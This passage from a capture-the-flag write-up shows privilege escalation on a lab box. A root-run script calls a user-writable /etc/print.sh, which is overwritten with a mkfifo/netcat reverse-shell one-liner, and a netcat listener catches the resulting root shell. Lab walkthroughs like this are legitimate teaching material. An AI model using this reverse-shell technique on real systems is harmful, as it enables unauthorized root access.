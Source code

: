- Now, when we look at the permissions for these files, we can see the following:
```sh
lennie@startup:~/scripts$ ls -la
ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Dec 13 19:40 startup_list.txt
```

- The two files in the `/scripts` directory are owned by root, which mean they run with root permissions. The `planner.sh` script references a file at `/etc/print.sh`. Now we can't directly edit the `planner.sh` script, but we may be able to do something to the script it references. Let's look into this further. Here is the content of the `/etc/print.sh` file:
```sh
#!/bin/bash
echo "Done!"
```

- It doesn't seem like anything is happening. But if we check the read/write permissions with `ls -la`, we see this:
```
-rwx------  1 lennie lennie    25 Nov 12  2020 print.sh
```

- Lennie is the owner of this file, meaning he can write to it. We can use `vim` to edit this file, and we can replace the contents with something that might call back to a [Netcat](https://sectools.org/tool/netcat/) listener we have running on our attacking machine. Since the script that calls it (`planner.sh`) is running with root permissions, there is a good chance it'll give us a shell with root access. Let's try it. 
- On our attacking machine, we can set up a [Netcat](https://sectools.org/tool/netcat/) listener on a different port than our PHP reverse shell:
```
nc -lnvp 4444
```

- Now we just add the following syntax to the `/etc/print.sh` file:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc target-ip 4444 >/tmp/f
```

- Let's try to run the `planner.sh` script and see what happens. Back at our [Netcat](https://sectools.org/tool/netcat/) session, we are greeted with this:
```
Connection from target-ip 36274 received!
/bin/sh: 0: can't access tty; job control turned off
# ls
root.txt
# 
```

- From here, we can grab that `root.txt` file and call this box finished. 
 
